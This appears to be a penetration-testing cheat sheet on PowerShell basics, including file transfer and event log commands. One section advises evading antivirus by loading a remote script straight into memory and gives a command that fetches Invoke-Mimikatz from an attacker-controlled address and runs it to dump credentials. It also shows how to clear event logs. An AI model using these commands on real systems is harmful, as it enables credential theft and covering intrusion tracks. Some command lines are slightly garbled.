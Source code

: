 # Common Commands

## Execution policy - UAC&#x20;

```
> Get-ExecutionPolicy
> Set_ExecutionPolicy Unrestricted
```

## Variables

Variables in PowerShell are prefixed with a dollar ($) symbol and assigned by stating the variable name that is followed by an equals sign (=) and the desired value.&#x20;

```
PS > $foo = ‘bar’   #Variables can be updated by setting them again. 
To display a variable just call the variable by name:
PS > $foo 
```

## File Manipulation

* Using the 'Get-Content' cmdlet, it is possible to read in the contents of a file, the result of which can be stored in a variable for later use or displayed on screen.
* When reading in a file with Get-Content, it is possible to specify how much of the file is read. This is similar to the head and tail commands in Linux.
* With the -TotalCount parameter you can specify how many lines you would like PowerShell to read (from the top, e.g. Get-Content \<PATH> -TotalCount 5).
* The -Tail parameter will do the same but from the bottom of the file.
* In addition to reading files it is possible to write data to them, either by using Set-Content to create and overwrite files or Add-Content which can append content to an existing file.
* Syntax: Set-Content -Value "This is a test" -Path ./test.txt.
* Remember you can use Get-Content to read the file at any time.

```
> Get-Content -Path .\MOCK_DATA.csv
```

* [https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/get-content?view=powershell-6](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/get-content?view=powershell-6)
* [https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/set-content?view=powershell-6](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/set-content?view=powershell-6)
* [https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/add-content?view=powershell-6](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/add-content?view=powershell-6)
* [https://docs.microsoft.com/en-gb/powershell/module/Microsoft.PowerShell.Utility/Select-String?view=powershell-6](https://docs.microsoft.com/en-gb/powershell/module/Microsoft.PowerShell.Utility/Select-String?view=powershell-6)

## File Transfer

```
> powershell -c “new-object System.Net.WebClient).DownloadFile([URL],'[destination file path and file name]')”
-c executes the subsequent command
new-object - instantiate a .NET or COM object
WebClient - chosen class of object
DownloadFile - method of action
```

I Module Manipulation\
◇ [https://docs.microsoft.com/en-gb/powershell/module/Microsoft.PowerShell.Core/Import-Module?view=powershell-6](https://docs.microsoft.com/en-gb/powershell/module/Microsoft.PowerShell.Core/Import-Module?view=powershell-6)\
◇ [https://docs.microsoft.com/en-gb/powershell/module/microsoft.powershell.core/get-module?view=powershell-6](https://docs.microsoft.com/en-gb/powershell/module/microsoft.powershell.core/get-module?view=powershell-6)\
◇ [https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/remove-module?view=powershell-6](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/remove-module?view=powershell-6)

## Download files and inject them directly into memory

Antivirus will scan the disk of your target regularly and block any files that you download on to it, if they are flagged as a virus. You can Bypass this by invoking a powershell command call to pull a remote file directly into memory&#x20;

```
> IEX (New-Object Net.WebClient).DownloadString('http://[attacker IP]/[target powershell script]');[New Powershell Command]
Example:
> IEX(New-Object Net.WebClient).DownloadString('http://10.102.10.91:1234/Invoke-Mimikatz.ps1');Invoke-Mimikatz -DumpCreds]E
```

* IEX - pull directly into memory
* Net.WebClient - Needed to run the DownloadString function&#x20;

## EventLog&#x20;

PowerShell comes with a cmdlet that allows you to query event logs from the command line. By default, it will query the local machine; however, it can also be used to query logs from remote connections. It has several options that can be used to filter the query and, similar to most PowerShell, the output can be piped to other filters like search and output.&#x20;

```
List of logs and their entries
> Get-eventlog -list
See all the logs of a specific type you can pass the name of the log to the cmdlet. So to see all system logs we can use: 
> Get-eventlog system
Filter logs by time
> Get-eventlog system -after (get-date).addhours(-1)
Advanced filtering by grouping and sorting
> Get-Eventlog -LogName system -Newest 1000 | group-object -Property source -noelement | sort-object -Property count -descending
Export logs to file
> Get-Eventlog application | export-csv - path application.csv
Clear Event Logs  
> Clear-Eventlog "Windows PowerShell" -clear
```

